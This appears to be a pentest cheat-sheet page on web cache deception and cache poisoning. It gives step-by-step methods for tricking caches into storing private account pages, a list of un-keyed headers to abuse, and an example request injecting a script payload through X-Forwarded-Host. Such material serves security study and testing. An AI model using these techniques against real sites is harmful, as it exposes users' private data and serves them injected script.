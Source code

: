 # Web Cache Deception Attack

## Tools

* [Param Miner - PortSwigger](https://github.com/PortSwigger/param-miner)
    > This extension identifies hidden, unlinked parameters. It's particularly useful for finding web cache poisoning vulnerabilities.

## Exploit

1. Browser requests `http://www.example.com/home.php/non-existent.css`.
2. Server returns the content of `http://www.example.com/home.php`, most probably with HTTP caching headers that instruct to not cache this page.
3. The response goes through the proxy.
4. The proxy identifies that the file has a css extension.
5. Under the cache directory, the proxy creates a directory named home.php, and caches the imposter "CSS" file (non-existent.css) inside.

## Methodology of the attack - example

1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as /home and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.paypal.com/myaccount/home/malicous.css`
5. The content of the cache is displayed

Video of the attack by Omer Gil - Web Cache Deception Attack in PayPal Home Page
[![DEMO](https://i.vimeocdn.com/video/674856618.jpg)](https://vimeo.com/249130093)

## Methodology 2

1. Find an un-keyed input for a Cache Poisoning
    ```js
    Values: User-Agent
    Values: Cookie
    Header: X-Forwarded-Host
    Header: X-Host
    Header: X-Forwarded-Server
    Header: X-Forwarded-Scheme (header; also in combination with X-Forwarded-Host)
    Header: X-Original-URL (Symfony)
    Header: X-Rewrite-URL (Symfony)
    ```
2. Cache poisoning attack - Example for `X-Forwarded-Host` un-keyed input (remember to use a buster to only cache this webpage instead of the main page of the website)
    ```js
    GET /test?buster=123 HTTP/1.1
    Host: target.com
    X-Forwarded-Host: test"><script>alert(1)</script>

    HTTP/1.1 200 OK
    Cache-Control: public, no-cache
    [..]
    <meta property="og:image" content="https://test"><script>alert(1)</script>">
    ```


## References

* [Web Cache Deception Attack - Omer Gil](http://omergil.blogspot.fr/2017/02/web-cache-deception-attack.html)
* [Practical Web Cache Poisoning - James Kettle @albinowax](https://portswigger.net/blog/practical-web-cache-poisoning)
* [Web Cache Entanglement: Novel Pathways to Poisoning - James Kettle @albinowax](https://portswigger.net/research/web-cache-entanglement)
* [Web Cache Deception Attack leads to user info disclosure - Kunal pandey - Feb 25](https://medium.com/@kunal94/web-cache-deception-attack-leads-to-user-info-disclosure-805318f7bb29)
* [Web cache poisoning - Web Security Academy learning materials](https://portswigger.net/web-security/web-cache-poisoning)
  - [Exploiting cache design flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws)
  - [Exploiting cache implementation flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws)
